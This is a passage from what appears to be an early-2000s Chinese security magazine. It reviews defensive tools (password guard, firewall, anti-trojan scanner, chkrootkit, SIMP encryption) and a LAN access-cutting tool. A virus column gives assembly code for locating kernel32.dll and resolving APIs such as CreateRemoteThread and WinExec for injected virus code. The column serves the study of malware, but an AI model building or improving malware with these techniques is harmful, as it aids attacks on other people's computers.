当然，你也可以在“消息”页面中点击“暂停”按钮暂时停止本程序的防护功能。噬菌体密码防盗专家使用的是内存伪装技术，可对内存中的密码框进行动态伪装，让你能够在各种场所都能放心地输入和使用密码、账号，从而有效防止各种盗号、密码被偷、被盗事件的发生。目前流行的网络盗号程序如 QQ 号码抢劫者、ShareQQ、联众密码监听器、按键记录器、传奇在线游戏击键记录等，均在其监控之内。

噬菌体密码防盗专家属于一款共享软件，大小仅为 1303KB，可使用在 Win9X/Me/NT/2000/XP 系统下。需要的朋友可以到 http://bj.onlinedown.net/Guardagainstpasswordtheft.htm 下载其最新版本 5.35。

图1

图2

## 网络执法官
## ——局域网实时管理工具 LANLawman

文／空侍

以前介绍过不少网吧的管理方法，但一般都是被动的管理方式，很多地方存在缺陷，比如不能做到对某台机器的上网控制。下面我们推荐一款非常优秀的软件——LANLawman，定能给网吧管理者带来新的管理方式。

说到局域网管理，很多公司单位的网管、网吧老板等都有自己的一套办法。拿最基本的“让哪台机器能上网、哪台不能上网”来说，就我所知的方法有如下几种：

- 1. 给局域网内每台机器设置静态 IP，通过内部代理服务器（或路由）连接 Internet，在代理服务器上进行 IP 限制。此法难防用户手动改静态 IP，也会带来 IP 冲突。
- 2. 通过 DHCP 动态分配并调整租期，可减少冲突，但仍难彻底限制用户自行设定静态 IP。
- 3. 进行逻辑划分（VLAN）可一定程度控制上网，但对技术和硬件要求较高，成本和管理半径也受限。

考虑到以上方式并不很适合限制上网的需要，就由这些方式演化出了下面介绍的方法。结合 DHCP 设置的方便、控制的低效与虚网管理的主动高效，现在向你推荐我要介绍的工具 LANLawman。它实现对局域网中每个网卡进行管理，也就是根据每个网卡的 MAC 地址进行控制，实现主动控制每台机器的上网权限，同时也实现了通过软件在管理机实时管理整个网络的愿望。

下面来看这个工具的使用。试用管理机环境：Windows 98 + PIII 1G，IP：172.31.31.179；子网网段：172.31.31.1～172.31.31.254；子网掩码：255.255.255.0；联网主机：120 台以上，分别装有 Windows 98 或 Windows 2000；网络架构：交换机级联，通过代理服务器上网。

- 1. 运行主界面（如图1）。程序实时查找本网段在线机器并添加到列表。该过程比较耗 CPU，配置较低机器不建议运行，以免死机。列表中的状态图标可显示在线、离线和受限状态，在线机器即为可管理对象。
- 2. 使某台在线机器不能上网。通过菜单栏和列表右键均可实现（下同）。出现如图2所示对话框，选择限制方式（一般只在“断开与其他机器的 TCP/IP 连接”前打勾），然后按“开始”，进行临时上网限制，但只能同时针对一台机器；按“结束”停止这次限制。  
  二是选择“权限”，出现如图3所示对话框，选择不同上网权限。如果不是无限制，则限定方式同上。控制多台机器的上网权限，只要不取消限制，则只带有这块网卡的机器始终不能上网。
- 3. 对暂时没有上网的机器实行限制。  
  一是选择“登记新网卡”，如图4所示；二是按“设置”菜单中的“默认权限”命令，出现如图5所示对话框，对启动 LANLawman 后上线的机器进行统一上网限制。
- 4. 取消对上网机器的限制。通过“注销”……

主要功能介绍完毕，其他一些辅助功能留给读者自己学习吧。接下来我把我试用过程中的一些体会与大家分享：

- 1. 局域网中本机所在子网主机不宜过多，一般不大于 254 台；同时网络架构应基于集线或交换（交换级联）环境。
- 2. 管理机最好选用 PIII 级以上机器，因为管理机会监视和截获网络中的数据。对于上线主机很多的情况，运行 LANLawman 时会出现程序无响应，且正常运行时 CPU 时间也会被严重占用。
- 3. 因为局域网上任何一台机器都能做管理机，所以若任何用户都可进行此种管理，将是灾难。对于此工具，开发者说正版能进行各版本的协调和控制；因为只有试用版，所以也未尝试。
- 4. 限制功能很有效，但是取消限制后，被限制过的机器必须等上几分钟才能恢复正常上网，且最终不能恢复正常上网的现象发生频率不低。当然，重启以后就正常了。
- 5. 因为此工具是对网卡进行限制，所以机器换网卡后必须进行相应调整，好在调整也方便。

总的来说，这是一款不错的局域网实时管理软件。虽然其中也有许多不完善之处，会影响网络速度和稳定，但是它提供了局域网管理的新思路，值得推崇。希望开发者能推出更好的版本。

## Windows XP 防火墙上手


作为一名网络安全爱好者，不会没有听说过 Windows XP 为准备的 Internet 连接防火墙（Internet Connection Firewall，简称 ICF）吧？很不错的东西哦。可是你对它了解多少呢？你的 ICF 都为你做了些什么？起到实际的作用了吗？下面我们就一起来了解一下 ICF。

ICF 是一种状态防火墙，就是说 ICF 可以监视所有通过其路径的通信，并检查所处理的每个消息的源地址和目的地址。当单机使用的时候，ICF 跟踪所有计算机发出的请求；对使用 Internet 连接共享的网络，ICF 跟踪所有源自内部计算机发出的请求，对所有从 Internet 返回的数据与内部请求记录比较，如果匹配则允许进入其内部网或计算机，否则拒绝通过。这样，ICF 可以阻止一切非内部请求的数据通过，从而保护我们的网络。当然，如果外部用户要访问你的主机开放的某种正常服务，如 WWW 和 FTP，ICF 还是允许的。

下面我们看如何启用 ICF：

右键点击“网上邻居”，选择“属性”，然后出现你建立的所有网络连接，选中你要设置的连接，右键单击并选择“属性”，点“高级”标签页，在“Internet 连接防火墙”下面的框框中打上一个“√”就开启了 ICF，如图 1 所示。

不要说开启了 ICF 就满足了啊，我们要深入了解一下 ICF。点击图 1 界面右下角的“设置”按钮，弹出 ICF 高级设置，如图 2 所示。

### ICF“服务”设置

“服务”标签下面，ICF 为我们预置了一些常用的服务，你可以根据自己电脑的配置设置。比如你开放了 WWW 服务和 FTP，要让别人访问，那就在“Web 服务器（HTTP）”和“FTP 服务”前面打上“√”。如果双击列举的服务名，那么你还可以对服务进行进一步设置，比如双击“Web 服务器（HTTP）”弹出下面的选项，如图 3 所示。

双击“FTP 服务器”可以对“FTP 服务器”作进一步设置，如图 4 所示。

单击“添加”，弹出下图所示的对话框，如图 5 所示。


在这里可以为 ICF 添加新的服务。“服务描述”中用以填入该服务的信息，如“FTP 服务器”等；“在您的网络上支持此服务的计算机的名称或 IP 地址”中填写提供此项服务的计算机名称，可以是 IP 地址；“此服务的外部端口号”中，如果是 FTP 就是 TCP 的 21 端口，如果是 Telnet 就是 TCP 的 23 端口；下面的“此服务的内部端口号”一般和上面的外部端口号一致。

### ICF 的“安全日志”

选中“安全日志”，可以设置 ICF 的安全日志，从而详细地了解 ICF 的工作情况，如图 6 所示。

“日志选项”中你可以定义是否记录被丢弃的包或是否记录成功的连接。默认是都没有选择的，你可以根据自己的需要选择其中的一项或者都选择。如果你选择了“记录被丢弃的包”，日志会记录通过 ICF 并被丢弃的数据包，如 ping 回应等。选择“记录成功的连接”后，内部网络中任何一个用户访问另一个站点的时候，该动作将被 ICF 记录，你可以监控你的用户到底访问了什么网站等。“日志文件选项”可以设置日志文件的路径和名称，比如如果你不想让日志存到默认的目录下，因为你需要时刻监控你的网络状况，那么你可以把文件存到桌面上。

最后的“大小限制”不用多说了，如果超出了你设置的限制，ICF 日志信息会被写到 pfirewall.log.1 中，新的日志被写到 pfirewall.log 中。

ICF 的日志采用了标准的 W3C 日志文件格式。打开 pfirewall.log 之后，看到下面的内容，如图 7 所示。

```text
#Version: 1.0
#Software: Microsoft Internet Connection Firewall
#Time Format: Local
#Fields: date time action protocol src-ip dst-ip src-port dst-port size tcpflags tcpsyn tcpack tcpwin icmptype icmpcode info
2003-06-15 12:34:27 DROP UDP 192.168.0.3 192.168.0.9 138 138 209 ...
2003-06-15 12:34:31 DROP UDP 192.168.0.3 192.168.0.9 138 138 209 ...
2003-06-15 12:34:35 DROP UDP 192.168.0.3 192.168.0.9 138 138 209 ...
```


version 行表示你的 ICF 安全日志版本为 1.0，software 是指提供安全日志的名称，time 的值为 local，就是本机时间；fields 是显示安全日志项目可用的域的静态列表，取值有 date（日期）、time（时间）、action（动作）、protocol（协议）、src-ip（源地址）、dst-ip（目的地址）、src-port（源端口）、dst-port（目的端口）、size（数据包大小）、tcpflags（IP 包的 TCP 控制信息）、tcpsyn（TCP 序列号）、tcpack（TCP 确认号）、tcpwin（TCP 窗口大小）、icmptype（ICMP 类型域号码）、icmpcode（ICMP 代码域号码）和 info（指定依存于发生的操作类型的信息项目），如果值为“-”表示该项没有内容。

我们分析一下日志正文的第一行：

```text
2003-06-15 12:34:27 DROP UDP 192.168.0.3 192.168.0.9 138 138 209 - - - - - -
```

该日志表示：2003 年 6 月 15 日 12:34:27，丢弃了一个采用 UDP 协议、来自 192.168.0.3 主机 138 端口、对应本机 192.168.0.9 的 138 端口的数据包，包大小为 209 个二进制字节。

### ICF 中“ICMP”设置

通过 ICMP，使用 IP 通讯的主机和路由器可以报告错误并交换受限控制和状态信息。当遇到下列情况的时候 ICMP 自动发送：

- IP 数据报无法访问目标，即 IP 包不能到达目的地。
- IP 路由器（网关）无法按当前的传输速率转发数据报。
- IP 路由器重定向发送主机，以使用更好的路由到达目的地址。

首先看一下 ICMP 配置的主界面，如图 8 所示。我们可以配置 ICMP，使主机回应来自外部的 ICMP 请求，比如 ping。我们看一下在没有启用 ICF 时候 ping 该主机的例子，如图 9 所示。

再看看开启了 ICF 后 ping 主机的例子，如图 10 所示。如果有这么一种情况：我们既需要开启防火墙，又需要对 ping 进行回应，怎么办呢？在 ICMP 配置窗口中选中“允许传入的回显请求”，然后再 ping 一下主机，看到了什么？——看到了和图 9 一样的画面！只需拿鼠标轻轻一点，就可以随意打开/关闭 ping 的回显，很有成就感对不对？^^ 关于其他的各个选项，你可以自己动手测试一下，在一台电脑上进入“命令提示符”状态，写上“ping 安装了 ICF 的主机 IP 地址 -t”就可以，然后在 ICF 配置窗口中试验一下各个选项，从 ping 的状态立刻就可以看出来。图 11 就是我在“关闭—打开”ICF 时的 ping 回显截图，如图 11 所示。

由此可见，ICF 还是很管用的，更重要的是：这可是比尔·盖茨送给用户的完全免费的防火墙哦！


## 反黑客代号杀

难度等级：低  
前置知识：无

文／图 李松林

科技的不断发展，网络的深入普及，在给人们带来方便的同时，也让人们担忧，黑客木马无不困扰着人们，下面就给大家介绍一款功能强大、使用方便的防黑客木马软件——反黑客木马专家。

也许大家要问，杀毒防黑软件那么多，为何偏偏要介绍它呢？因为反黑客木马专家不仅能够智能检测和清除超过 12000 多种黑客程序和木马程序，而且还提供多种扫描方式，全面而可靠地检测你的计算机。下面，笔者就从几个基本功能入手，为大家介绍一下这款功能强大的反黑软件。

如果我们怀疑但不确定自己的爱机是否被种了木马的话，我们可以先检查计算机都开了哪些可疑的端口，以此来判断自己的机器是否中了木马程序。如果不幸中了，也没有什么，清除即可。这就是反黑客木马专家提供的智能检测黑客端口和木马端口，发现并追踪其对应的黑客或木马程序，关闭并清除的功能。除此之外，它还可以对内存、注册表、所有磁盘，诸如软硬盘、光驱、虚拟磁盘、网络磁盘等进行扫描。而且，只要发现黑客木马程序就会清除相应的程序。不过好像需要注册才能实现更多的功能。

双击桌面上的快捷方式即可进入到程序的主界面，单击菜单栏上的“扫描”，选择“开始”选项即可实现上述的诸多功能，或者单击工具栏上的放大镜图标，也可以实现（图 1）。不过，如果是非注册版本，则会弹出图 2 所示的对话框。


图1


图2

当然，我们也可以对指定的文件或者文件夹进行扫描，它可扫描的程序文件有很多，包括诸如 .exe、.dll、.ocx、.drv、.vxd、.fon、.com、.bat、.class 中隐藏的木马。除此之外，还可扫描网页文件 .htm、.html、.asp、.aspx、.js、.vbs、.java 中的恶意脚本。

单击程序菜单栏中的“扫描”，选择其中的“扫描文件”或者单击工具栏中的图标都可以达到同样效果的扫描功能（图 3），这回大家不用担心防不胜防的网页木马了。每周定期发布新的升级版本，并采取 Internet 在线升级方式，更让我们升级舒心、使用放心（图 4）。


成功的反黑软件都会有进程管理功能。反黑客木马专家也不甘示弱，同样具有超强的进程管理功能，查看系统中每个进程的详细信息，还包含进程说明、进程使用的端口、进程对应的 DLL 文件等。这样，我们就可以关闭我们不熟悉的可疑进程来保护爱机的安全了。单击程序菜单栏中的“工具”，选择“超级进程管理器”选项即可。

看看爱机都有哪些可疑的进程吧（图 5）！现在是不是很惊叹反黑客木马专家功能的强大啊？不要着急，还有呢！除了上面介绍的基本功能外，反黑客木马专家还提供了许多更贴心的功能，例如内置了一个类似金山毒霸形状的防火墙。可不要小瞧了这个内置的防火墙，它的功能还不小呢，诸如一些基本的防护，它都可以做到。单击程序的菜单栏中的“工具”，选择其中的“防火墙”选项，我们就可以启动这个内置的防火墙了（图 6）。


当然，我们也可以设置成为开机自动运行。只要用鼠标右键单击任务栏中的防火墙图标，然后在弹出的菜单中选择“自动运行”即可实现开机自动运行（图 7）。


还有，我们也可以实现定期查看、定期升级等功能。只要单击程序菜单栏中的“功能”，选择其中的“选项”功能，在弹出的对话框中，选择我们需要的选项卡即可（图 8）。


好了，反黑客木马专家就暂且给大家介绍到这。感觉怎么样？是不是心动了，那就赶快行动吧。

## 用 **SIMP** 实现 **MSN Messenger** 的安全交流

难度等级：低  
前置知识：具备 Windows 程序的使用经验

文／图 朱宏志

当在用 MSN Messenger 与朋友聊天时，你有没有想过你的消息可能被别有用心的人窃取呢？特别是你们的聊天内容涉及到商业机密时，就更要小心了。那有没有某种安全的方法让大家放心地交流呢？方法当然是有的，这里就向大家介绍一种：利用 SIMP 来实现 MSN Messenger 的安全交流。SIMP（Secway's Instant Messenger Privacy）就像即时通信领域的 PGP 一样，它跟 PGP 的原理差不多，都是利用公钥机制来实现加密和解密的，只是 PGP 应用于电子邮件加密，而它用于即时通信加密。

### SIMP 的下载与安装

SIMP 有商业版和免费版，大家可以到 http://www.secway.com 下载免费的 Simp Lite for MSN 2.0，它的安装很简单，一路“Next”即可。由于加密和解密是涉及到聊天双方的事情，所以两者都得安装 SIMP。安装完成后，会打开一个密钥对生成向导，由于 SIMP 是用公钥来加密聊天内容的，所以首先就得有一个配套的密钥对（一个公钥和一个对应的私钥，它们是不一样的，公钥给别人，用来加密发送给你的消息，然后你用私钥解密收到的消息），这个密钥对生成向导按默认设置一路完成即可，这里就不多说。

**编者注：** 小编上其站点看了一下，发现是法国一家软件公司 Secway 研发的，其主打产品 SIMP Lite 系列，不仅仅可以加密 MSN 的对话，还可以加密 Yahoo!、ICQ、AIM、Exchange 的对话，其中 SIMP Pro 是商业产品，可以在单一产品中统一支持上述 IM 的对话。

从图 1 可以看出，当安装了 SIMP 后，MSN 是先把要发送的内容交给 SIMP 加密，然后再由 SIMP 发送出去。同理，当对方收到消息后，也是先用 SIMP 解密再把消息传递给 MSN，所以在这里，SIMP 其实起了一个代理作用，事实上，它就是一个 Socks4 的代理服务器。理解上面的流程，对于保证 MSN 的正常使用很重要，也便于我们配置 SIMP。


### SIMP 的配置

在使用 MSN 之前，我们需要先检查一下 SIMP 的配置，而在检查 SIMP 的配置之前，我们先来看看 MSN 在安装 SIMP 前后的工作流程，如图 1 所示。

现在让我们来检查一下 SIMP 的配置，需要检查的有两个地方。第一个地方是确保选中了“Configure the MSN client to use Simp”。要打开这个设置，双击系统托盘区的红色 SIMP 图标打开 SIMP 管理窗口，选择菜单 file/configure/system（图 2）。

这个选项的作用就是配置 MSN 使用 SIMP 做代理服务器，所以选择了这个选项后，就会自动修改 MSN 的连接设置，如图 3 所示（原先的设置是没有选中“我使用代理服务器”项）。

第二个需要检查的地方是连接项（图 2 中的 connection 标签），确保选择的是“Import and use default client settings”（图 4）。这个选项表明 SIMP 导入并使用 MSN 原先的 Internet 连接设置，也就是未安装 SIMP 之前的设置。

为什么会选择这个选项呢？那是因为现在 SIMP 需要直接与网关通信，所以它就应该使用局域网的 Internet 连接设置。聪明的你一定想到了，如果当我禁用了 SIMP 时，MSN 肯定不能正常连接。对的，因为它此时找不到代理服务器 SIMP 了。如果当你没使用 SIMP 时，你必须把图 3 的设置改为原来的设置才能正常使用 MSN，因为此时它是直接与网关打交道了。一般来说，原先的设置就是取消“我使用代理服务器”项。


### 使用 SIMP

启用了 SIMP 后并不会改变 MSN 的使用方式，只是开始时有几个需要确认的地方。

第一步：在 MSN 登录之前，要保证 SIMP 也已处于待命状态，也就是它们都出现在了系统托盘区（图 5）。左边的是 SIMP，右边的是 MSN，一般来说，系统启动后就是这样的。


第二步：正常登录 MSN，此时你会发现图 5 的图标已经变为图 6 的样子了。如果 SIMP 没变，请按上面所讲检测 SIMP 的配置，特别是它的网络设置；当然，这时你要交流的对方也应该处于这种状态，不然你发送的加密包他怎样解密呢？


第三步：照正常方式一样，双击你要聊天的对象，弹出聊天对话框，此时双方会遇到一个询问框，如图 7 所示。


上面的图示说明我要与“yaocuilin@hotmail.com”朋友聊天，为了能够加密聊天的内容，他的 SIMP 首先把他的公钥发送过来了，并询问我是“accept”“reject”还是“accept once”。如果你确信这是“yaocuilin@hotmail.com”的公钥并愿意永远使用，可以选择“accept”；如果你只加密此次会话，可以选择“accept once”。注意类似询问框会同时出现在对方计算机上，只是此时的 user 是你了，因为是你的 SIMP 把你的公钥发送过去询问相同的事情。当彼此都接受了之后，你们就已经开始了安全交流。


第四步：后面的聊天就跟平常一样的了，虽然你感觉不出有什么不同，但实际上你们的聊天已全部加密了（图 8）。

**编后：** 由于免费版的限制，发送文件时并未加密，如果你有这个需要，可以购买商业版的 SIMP PRO。其实 SIMP 不光是针对 MSN 的，它还有针对其他即时通信软件的模块，比如针对 YAHOO、AOL、ICQ 的，所以如果你是使用它们进行聊天的，也同样能够享受到 SIMP 带给你的安全体验。

究竟什么是 rootkit 程序呢？很久以前，rootkit 程序被看成只有管理员 root 才使用的程序，这种程序通常帮助管理员检查系统是否正常运转，有没有其他恶意的程序在运行。但是，现在 rootkit 程序被黑客利用来攻击系统、隐藏自己。攻击者利用本地或者远程缓冲区溢出，或者利用管理员的疏忽配置从而得到 root 权限，紧接着攻击者就会在计算机里面安装 rootkit 程序，通过 rootkit 程序就可以得到其他用户的相关密码和信息，进而危害其他系统的安全。因此定期做 rootkit 检测是很必要的。那么，如何来实现呢？


## 程序检测实例

文／SOFTBUG

在互联网上，除了 Windows 系统外，还有 UNIX、Linux 等 *nix 内核的系统。这些系统同样在互联网上起着关键作用，在电信邮电部门有着关键性的应用。但这些系统也不是完美的，它们也会感染病毒，最可怕的是它们也会被入侵者安装 rootkit 程序。什么是 rootkit 程序呢？所谓 rootkit，通常是被人为整理的一些常用的木马程序，它们被做成一组程序套件，以方便 cracker 攻入主机时，在受害的主机上，顺利地编译和安装木马程序。有些 rootkit 纯粹实验性质，也有 rootkit 本身就是一种 rootkit 木马，让试玩 rootkit 者中了木马。rootkit 的种类很多，通常 rootkit 中所包含的木马程序，大都以原始程序代码的形式散布，这些程序很多是由早期的 BSD UNIX 系统逐步移植（port）过来的，因此几乎在各种机器平台上，都有 rootkit 的踪影，而且变种及花样可以说是形形色色。总的来说，rootkit 就是带有伪装系统性质和后门或木马。

这么大的危害，我们怎么来对付它们呢？如果你是一个网管，那么你负责的 Unix 机器是怎么维护的呢？难道就是查看系统日志吗？今天我们向大家介绍一款实用性的 rootkit 检测工具：Chkrootkit for Unix，下载地址为 http://www.chkrootkit.org/。chkrootkit 还可以在 Linux、FreeBSD、OpenBSD、Solaris 上运行，它能对系统中绝大部分重要程序做详细的检查。

### 安装 Chkrootkit

如何安装 chkrootkit 呢？首先我们将下载下来的文件解压：

```bash
tar xvzf chkrootkit-0.32.tar.gz
cd chkrootkit-0.32
make sense
```

最后执行 `./chkrootkit > chk.lst` 就可以了。

### 检查实例

以下是 chk.lst 的部分内容，这表示系统应该是干净的，虽不是百分之百，但至少令人安心一点。

```text
ROOTDIR is '/'
Checking 'basename'... Not vulnerable
Checking 'biff'... NOT TESTED
Checking 'chfn'... Not vulnerable
...
Searching for anomalies in shell history files...
Checking 'lkm'... Nothing detected
```

### 总结

可以这么说，chkrootkit 是一个简单易用的检测工具，比较傻瓜，但是对一个网管来说还是起到了很大的辅助作用。希望大家充分利用这个工具消灭你系统中的蠕虫和木马，减少对网络的危害。

> CVC（中国毒客公社）是由一群有着共同兴趣和理想、致力于病毒技术研究和普及的爱好者组成的民间组织。他们爱好和平，憎恨战争和破坏，他们关注的仅仅是技术，他们在精致的代码世界里寻找生命的律动。希望此专栏能给那些喜欢探索并正在黑暗中摸索的心灵以正确的引导，让世界的一角露出曙光。我们坚信，对病毒技术的深入了解有助于我们找到防治病毒的有效方法，让我们一起探索神秘的病毒世界，找到战胜病毒的魔盒。

## Win32 病毒基础系列之 API 地址的获取


文／haiwei[CVC.GB]

要了解病毒的原理，就必须明白如重定位、API 地址的搜索、本地文件的传染、网络文件的传染及隐藏等病毒常用的技术。如果想更深入一点，那么花指令、动态反跟踪、代码的加密、变形以及多态等等就在你的学习范畴之内了。

### 一、为什么要搜索 API 地址

本文是站在刚刚接触病毒技术不久的朋友的角度来阐述病毒技术里最简单、最基础的那部分——API 函数地址的搜索。

API 地址为什么要搜索呢？直接 Call API 函数名或 invoke API 函数名不就可以了吗？这是很多刚接触病毒的朋友不理解的地方。要弄清楚这些问题，就需要了解一些 Windows 程序函数调用的知识。

Windows 程序调用的 API 都存在于外部的 DLL 文件中（如 GetProcAddress 函数就位于 Kernel32.dll 中，MessageBoxA 函数在 User32.dll 里面），而程序中的 Call API 指令编译后实际上被转化为 EXE 文件 .text（各个编译器编译出来的 EXE 代码块的块名是不一样的）节中的“Call .text 块中地址”，而这个地址的内容是 `Jmp dword ptr [xxxxxxxx]` 指令。`xxxxxxxx` 这个地址位于 EXE 文件的 Import 表中（即 EXE 的 .idata 块），`xxxxxxxx` 中保存的才是 API 的真正地址，也就是说 EXE 中调用 API 的真正地址都在 Import 表中。

现在我们来看看下面一段代码：

```asm
Push MB_OK
Push offset szCaption
Push offset szMessage
Push NULL
Call MessageBox
```

假设 Call MessageBox 被转化为 .text 块中的 `Jmp dword ptr [00400250]`（00400250 是编译器根据 EXE 的引入表得到的）指令，那么地址 00400250 中存的应该是 MessageBox 函数的真正地址，从而成功也完成函数的调用。但是，病毒代码总是要植入宿主程序中，而宿主程序中根本就没有病毒的引入表，也就是说，00400250 地址中没有 MessageBox 的真正地址。这样，函数的调用就会失败，所以病毒必须自己动态地获取 API 地址。

### 二、怎样搜索 API 地址

通过上面的讲述，我们大致明白了病毒为什么要搜索 API 地址。现在回到我们的主题，要想获得 API 的地址，得首先获得诸如 kernel32.dll、user32.dll 的基址，然后再找到真正的函数地址。那么，如何获得基址和函数地址呢？下面介绍几种 API 地址的获取方法：

- 搜寻宿主的引入表获得 `GetModuleHandleA` 和 `GetProcAddress` 的地址，再通过它返回系统 DLL 的基址。该法在部分情况下可行，但若宿主未调用 `GetModuleHandleA`，就无法继续获取。
- 硬编码调用函数（例如在 9X 下 `GetProcAddress` 地址常见为 `BFF7****`）。缺点是不同 Windows 版本 API 地址不同，兼容性差。
- 直接获得 `kernel32.dll` 基址，再搜索 Export 表得到 `GetProcAddress` 地址，从而获取任意目标函数地址（兼容性最好）。

下面具体介绍第 3 种方法。

第一步，搜索 Kernel32.dll 基址。我们知道，系统运行可执行文件的工作是 Kernel32.dll 中的 CreateProcess 函数完成的……

刚才堆栈顶端保存的数据是什么呢？仔细想想，我们不难明白，这个数据其实就是在 Kernel32.dll 中的返回地址。其实，这个过程同应用程序用 call 指令调用子程序相似。这里给出伪码（事实上，真正调用 PE 入口的函数是 BaseProcessStart）：

```asm
text
; Kernel32.dll image
xxxx0000
  call CreateProcess(...)
xxxxxxx:
  mov eax, PE.ImageBase
  add eax, PE.RVAOfEntryPoint
  call eax      ; 跳转到病毒入口地址
RetAddress 地址进栈
xxxxxxxx: RetAddress ; 知道了 RetAddress，向上找到 xxxx0000
xxxxxxxx: ; Other APIs and Data
```

CreateProcess 是 Kernel32.dll 的函数，它内部所有指令当然在 Kernel32 地址空间内。另外，当我们保留地址空间的一个区域时，系统要确保该区域从一个分配粒度的边界开始……因此为了提高效率，搜索时按照 64KB（10000h）递减往低地址搜索，就必然可以找到 Kernel32.dll 的映像首地址，即 Kernel32 模块的基地址。请看下面的代码：

```asm
text
GetKBase:
  mov edi,[esp+04h]
  ; 这里的 [esp+04h] 取决于前面 push 数量
  and edi,0FFFF0000h
while TRUE
  if WORD ptr [edi] == IMAGE_DOS_SIGNATURE ; 判断是否 MZ
    mov esi,edi
    add esi,DWORD ptr [esi+03ch] ; esi 指向 PE 标志
```

```asm
if DWORD ptr [esi] == IMAGE_NT_SIGNATURE
  ; 是否有 PE 标志
  break ; 如果有跳出循环
endif
...
sub edi, 010000h ; 分配粒度是10000h，dll仍然加载在xxxx00000h处
if edi < MIN_KERNEL_SEARCH_BASE
  mov edi, 06f70000h ; 如果上面没有找到，则使用Win9x的KERNEL基址
  break
endif
...
mov hKernel32, edi ; 把找到的KERNEL32.DLL基址保存起来
```

第二步：查找 Kernel32.dll 的 Export 表中 GetProcAddress 的地址。

查找 Export 表之前，我们先来看看 Export 表的大致结构：

- IMAGE_EXPORT_DIRECTORY
- Function Address Table (AddressOfFunctions)


NumberOfFunctions 字段：AddressOfFunctions 所指向的数组元素的个数（其实就是该模块输出函数的个数）。

NumberOfNames 字段：模块中函数名的个数，有些 API 函数是没有函数名的。

AddressOfFunctions 字段：模块中所有函数的 RVA 都保存在一个数组中，而本字段就指向这个数组。

AddressOfNames 字段：指向所有函数名 RVA 数组。

AddressOfNameOrdinals 字段：指向包含上述 AddressOfNames 数组中相关函数之序数的 16 位数组。

从上图可以看出，如果要在模块的 Export 表中查找 MyFunc3 函数的地址，必须先根据 IMAGE_EXPORT_DIRECTORY 结构中的 AddressOfNames 字段找到包含函数名数组的首地址，然后在函数名数组中查找与 MyFunc3 相同的项，从而得到 MyFunc3 函数在模块中是第几个函数。在上图 MyFunc3 在函数名数组中是第 2 个，那么，我们可以用 `2*2+AddressOfNameOrdinals` 得到 MyFunc3 函数的序号，最后，MyFunc3 函数地址可以这样做：`mov Eax,dword ptr [序号*4+AddressOfFunctions]`。

下面给出通过 API 函数名查找 API 函数地址的算法：

- 定位到 PE 文件头。
- 从 PE 文件头中的可选文件头中取出数据目录表的第一个数据目录，得到导出表的地址。
- 从导出表的 NumberOfNames 字段得到已命名函数的总数，并以这个数字作为微循环的次数来构造一个循环。
- 从 AddressOfNames 字段指向的函数名称地址表的第一项开始，在循环中将每一项定义的函数名与要查找的函数名比较，如果没有任何一个函数名符合，说明文件中没有指定名称的函数。
- 如果某一项定义的函数名与要查找的函数名符合，那么记住这个函数名在字符串地址表中的索引值（如 x），然后在 AddressOfNameOrdinals 指向的数组中以同样的索引值 x 去寻找数组项对应的值，假如该值为 m。
- 以 m 值作为索引值，在 AddressOfFunctions 字段指向的函数入口地址表中获取的 RVA 就是函数的入口地址；当函数被装入内存后，这个 RVA 值加上模块实际装入的基址（ImageBase），就得到了函数真正的入口地址。

对于病毒来说，通常是通过 API 函数名来查找 API 函数地址，下面是相应程序：

```asm
mov edx, edi      ; edx -> KERNEL32 基址
assume edx : ptr IMAGE_DOS_HEADER
add edx, [edx].e_lfanew
assume edx : ptr IMAGE_NT_HEADERS
...
mov edx,[edx].OptionalHeader.DataDirectory.VirtualAddress
add edx,hKernel32 ; EDX-->KERNEL32输出表地址
assume edx:ptr IMAGE_EXPORT_DIRECTORY
mov ebp,[edx].AddressOfNames
add ebp,hKernel32 ; ebp->指向所有函数名的RVA数组
xor eax,eax ; eax为现在查找的是模块中的第几个函数
.repeat
  push 14 ; 为GetProcAddress函数名的长度
  pop ecx
  mov edi,[ebp] ; 取得函数名RVA
  add edi,hKernel32
  lea esi,nGetProcAddress
  repz cmpsb ; 比较输出表中第1个函数名是否是GetProcAddress
  .if zero?
    .break
  .endif
  add ebp,4 ; 下一个RVA
  inc eax ; 为现在查找的是模块中的第几个函数
.until eax == [edx].NumberOfNames
mov ebp,[edx].AddressOfNameOrdinals
add ebp,hKernel32
movzx ecx,word ptr [ebp+eax*2]
mov ebp,[edx].AddressOfFunctions
add ebp,hKernel32
mov eax,[ebp+ecx*4]
add eax,hKernel32
mov _GetProcAddress,eax
```

```asm
GetOtherApi2:
call @api_table
db 'CreateThread',0
db 'CreateRemoteThread',0
db 'WinExec',0
@api_table:
pop edi
call @api_dest
K_Api2:
_CreateThread        dd 0
_CreateRemoteThread  dd 0
_WinExec             dd 0
K_API_NUM = ($-K_Api2)/4
@api_dest:
pop esi
push K_API_NUM
pop ecx
xor ebp,ebp
K_begin:
push ecx
push edi
push hKernel32
call _GetProcAddress
or eax,eax
jz GA_Fail
mov dword ptr [esi],eax
GA_Fail:
xor eax,eax
repnz scasb
add esi,4
pop ecx
loop K_begin
```

第三步：获取其他函数地址。

在上面，我们已经找到 GetProcAddress 函数的地址，接着只要：

```asm
Call GetProcAddress, hKernel32, offset NameOfFunction
```

就可以得到其他函数的地址。当然，我们也可以用以上方法找到所有需要用到的 Kernel32.dll 中的 API 函数地址。下面是用来通过 GetProcAddress 搜索相应 API 函数地址的程序代码：

如果我们需要找到其他 DLL（譬如 user32.dll）文件中的 API 函数地址，我们还需要查找 kernel32.dll 中的 LoadLibrary 函数的地址，用它来配合 GetProcAddress 函数就可以找到所有 API 函数地址了。

后记：本文中我们详细讲解了病毒技术中最基础的知识，相信这对于绝大多数病毒技术爱好者来说，这应该算得上是目前国内最好、最基础的教程之一了。经常有人在论坛无数次地问到这个问题，我想这也算得上是专栏献给大家的第一份薄礼吧。希望大家继续关注本专栏！

每当我们谈起病毒，很多人都会觉得有一种恐惧，另外还带有一点神秘。其实病毒并不神秘，更不可怕。当大家对它有所了解后，就会明白病毒无非也是由一些正常的代码所组成的。很多技术也非病毒才会用到。譬如今天我们跟大家谈到的重定位技术，它作为病毒技术中最基础的知识，同时也是远程线程和加载软件所需要用到的基本技术。无论你是否对病毒技术有兴趣，本文都值得你留意。

文 / RattleSnak [CVC.GB]


## 病毒重定位

### 二、重定位的原因

都说病毒第一步要重定位，那到底为什么要重定位呢？我们写正常程序的时候根本不用去关心变量（常量）的位置，因为源程序在编译的时候它在内存中的位置都被计算好了。程序装入内存时，系统不会为它重定位。我们需要用到变量（常量）的时候直接用变量名访问它就行了。

